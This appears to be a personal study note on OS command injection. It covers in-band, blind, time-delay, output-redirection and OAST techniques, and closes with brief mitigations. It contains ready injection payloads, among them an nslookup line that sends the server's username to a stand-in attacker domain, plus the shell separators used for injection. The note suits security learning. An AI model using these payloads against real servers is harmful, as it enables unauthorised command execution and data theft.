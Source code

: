# OS Command Injection

OS command injection (also known as shell injection) is a web security vulnerability that allows an attacker to execute arbitrary operating system (OS) commands on the server that is running an application, and typically fully compromise the application and all its data. Very often, an attacker can leverage an OS command injection vulnerability to compromise other parts of the hosting infrastructure, exploiting trust relationships to pivot the attack to other systems within the organization.

## Execute Arbitrary commands :

`**https://insecure-website.com/stockStatus?productID=381&storeID=29**`

consider given link there may be legacy system running script behind may be it run script with parameters ...

ie : python3 stockCheck.py 381 29

then this script gives output based on params. now assume we give additional input `**& echo "abc"**` , application may also print **abc** as application output. so input should look like...

`**https://insecure-website.com/stockStatus?productID=381%20&%20echo%20"abc"%20&storeID=29**` that will execute python3 [stockCheck.py](http://stockCheck.py) 381 & echo "abc" & 29

Output from legacy system would look like...

```bash
Error - productID was not provided

            abc

            29: command not found
```

## Commands you can use :

| Purpose of command | Linux | Windows |
| --- | --- | --- |
| Name of current user | whoami | whoami |
| Operating system | uname -a | ver |
| Network configuration | ifconfig | ipconfig /all |
| Network connections | netstat -an | netstat -an |
| Running processes | ps -ef | tasklist |

## Blind Command Injection :

Many instances of OS command injection are blind vulnerabilities. This means that the application does not return the output from the command within its HTTP response. Blind vulnerabilities can still be exploited, but different techniques are required.

in feedback like functionality, site may ask for email address to supply it to admin

`**mail -s "This site is great" -aFrom:peter@normal-user.net feedback@vulnerable-website.com**`

so use something different payload like email address like `**peter@normal-user.net & echo "abc" &**` 

or we can add command in comment section too.

## Blind OS command Injection using time delays :

sometime normal output is not shown to user, so try to trigger time delays using commands like `**ping -c 10**` or `**sleep**, etc`

`**& ping -c 10 127.0.0.1 &**`

This command will cause the application to ping its loopback network adapter for 10 seconds.

## blind OS command injection by redirecting output :

You can redirect the output from the injected command into a
 file within the web root that you can then retrieve using your browser.
 For example, if the application serves static resources from the 
filesystem location `**/var/www/static**`, then you can submit the following input:

`**& whoami > /var/www/static/whoami.txt &**`

we can retrieve output at `**https://vulnerable-website.com/whoami.txt**` 

### Or we can use OAST techniques to interact with collaborator or exfiltrate data

`**& nslookup kgji2ohoyw.web-attacker.com &` - interact**

`**& nslookup `whoami`.kgji2ohoyw.web-attacker.com &` - exfiltrate username**

## Ways to inject OS Commands :

in all OS :

- `&`
- `&&`
- `|`
- `||`

in unix :

- `;`
- Newline (`0x0a` or `\n`)

On Unix-based systems, you can also use backticks or the dollar character to perform inline execution of an injected command within the original command:

- ``` injected command ```
- `$(` injected command `)`

# Mitigations :

Don't use OS commands directly from application but apply safer API

strong input validation is must needed

use white listing

only allow alphanumerical characters
